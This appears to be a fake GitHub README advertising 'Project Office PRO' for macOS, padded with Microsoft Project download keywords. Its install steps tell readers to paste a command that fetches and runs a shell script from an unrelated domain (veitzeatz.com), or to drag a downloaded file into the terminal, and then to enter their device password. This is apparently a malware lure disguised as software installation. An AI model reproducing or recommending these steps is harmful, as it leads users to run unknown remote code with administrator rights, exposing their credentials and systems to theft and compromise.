 # 📁 Project Office PRO — Professional Project Management Software for macOS

Project Office PRO is a comprehensive project management application tailored for macOS users. Designed to help professionals plan, track, and deliver projects efficiently, it offers powerful tools for scheduling, resource management, and collaboration.

## ✅ Download Project Office PRO for macOS  
[![Download Project Office PRO](https://img.shields.io/badge/Download-Project%20Office%20PRO-blueviolet)](https://project-office-pro-mac-download.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download Project Office PRO for macOS  
[![Download Project Office PRO](https://img.shields.io/badge/Download-Project%20Office%20PRO-blueviolet)](https://project-office-pro-mac-download.github.io/.github)

---

## 📦 What is Project Office PRO?

Project Office PRO is a feature-rich project management software that provides detailed task scheduling, resource allocation, and progress tracking. It is optimized for macOS, enabling smooth and productive workflows for project managers and teams.

---

## ✨ Features

- 📅 Advanced project scheduling and timeline management  
- 👥 Resource allocation and workload balancing  
- 📊 Real-time project tracking and reporting  
- 🔄 Integration with Microsoft Project formats  
- 💬 Team collaboration and communication tools  
- 🖥️ Fully optimized for macOS with Retina display support  
- 📱 Compatible with iPad for remote project access  
- 🔔 Automated alerts and deadline reminders  

---

## 💡 Why Use Project Office PRO?

- 🏗️ Plan complex projects with intuitive Gantt charts  
- 📈 Monitor progress and identify bottlenecks early  
- 🤝 Collaborate efficiently with team members and stakeholders  
- 📂 Import and export Microsoft Project files seamlessly  
- 📲 Access and manage projects anytime from Mac or iPad  

---

[![Download Project Office PRO](https://img.shields.io/badge/Download-Project%20Office%20PRO-blueviolet)](https://project-office-pro-mac-download.github.io/.github)

---

## 🖼️ Preview

![Project Office PRO Screenshot 1](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/dbb5dca9-c4c8-4895-bafd-648af8636b5a.png?auto=format&q=50)  
![Project Office PRO Screenshot 2](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/6d2702ba-47bc-4acd-955d-c6e259079826.jpeg?auto=format&q=50)

---

## 📌 Tags

ms project professional, ms project professional 2021, microsoft project professional 2021 download, microsoft project professional 2016,  
microsoft project 2019 professional, ms project professional 2019 download, ms project professional 2019, ms project 2021 professional download,  
ms project professional download, microsoft office project professional, office project professional, ms project professional 2016,  
microsoft project professional 2013, ms office project professional, ms project professional online, office project pro, microsoft office project pro,  
microsoft office project professional 2010, microsoft office project professional 2013, microsoft office project professional 2016, microsoft project 2016 pro,  
ms office project pro, ms project professional 2013

